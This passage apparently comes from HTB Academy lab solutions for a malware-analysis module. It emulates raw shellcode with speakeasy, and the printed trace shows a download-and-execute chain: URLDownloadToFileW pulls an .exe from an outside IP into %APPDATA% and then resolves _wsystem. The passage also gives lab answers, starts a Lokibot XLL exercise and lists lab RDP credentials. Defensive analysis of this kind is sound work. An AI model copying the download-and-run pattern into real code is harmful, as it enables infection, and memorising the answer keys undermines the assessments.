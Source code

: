 ![[HTB Solutions/Others/z. images/a602a8fb5ed347a1265b2e19ec5542df_MD5.jpg]]

![[HTB Solutions/Others/z. images/dd35c32ab2d8c423733d2bf409878454_MD5.jpg]]

Students will open the command prompt and will utilize `speakeasy` to perform analysis of the raw shellcode using the `-r` option and specifying the `x64` as the architecture against the `academy-student.bin` file, finding the name of the executable in the `URLDownloadToFileW` function:

Code: cmd

```cmd
speakeasy -t "C:\temp\academy-student.bin" -r -a x64
```

```
C:\Users\Administrator>speakeasy -t "C:\temp\academy-student.bin" -r -a x64

* exec: shellcode
0x108a: 'kernel32.GetProcAddress(0x77000000, "ExpandEnvironmentStringsW")' -> 0xfeee0000
0x10c8: 'kernel32.ExpandEnvironmentStringsW("%APPDATA%\\joludn.exe", "%APPDATA%\\joludn.exe", 0x104)' -> 0x14
0x10df: 'kernel32.LoadLibraryW("UrlMon")' -> 0x54500000
0x10fd: 'kernel32.GetProcAddress(0x54500000, "URLDownloadToFileW")' -> 0xfeee0001
0x117d: 'urlmon.URLDownloadToFileW(0x0, "http://141.95.107.91/cgi/dl/{hidden}.exe", "%APPDATA%\\joludn.exe", 0x0, 0x0)' -> 0x0
0x1194: 'kernel32.LoadLibraryW("msvcrt")' -> 0x77f10000
0x11a8: 'kernel32.GetProcAddress(0x77f10000, "_wsystem")' -> 0xfeee0002
0xfeee0002: shellcode: Caught error: unsupported_api
Invalid memory read (UC_ERR_READ_UNMAPPED)
Unsupported API: msvcrt._wsystem (ret: 0x11af)
* Finished emulating
```

Answer: `8521000125423.exe`

# Excel-DNA C# XLL Add-ins (Lokibot)

## Question 1

### "Open the XLL sample "C:\\Tools\\MalDoc\\Office\\Demo\\Samples\\xll\\lokibot\\MV SEAMELODY.xll" in the PE-Bear. Go to the Exports tab and figure out the name of the Exported function that ends with Open. Type the function name as your answer. Answer Format is \*\*\*\*\*\*Open"

After spawning the target students will establish an RDP session using the credentials `Administrator:P3n#31337@LOG`:

Code: shell

```shell
xfreerdp /v:STMIP /u:Administrator /p:'P3n#31337@LOG' /dynamic-resolution
```
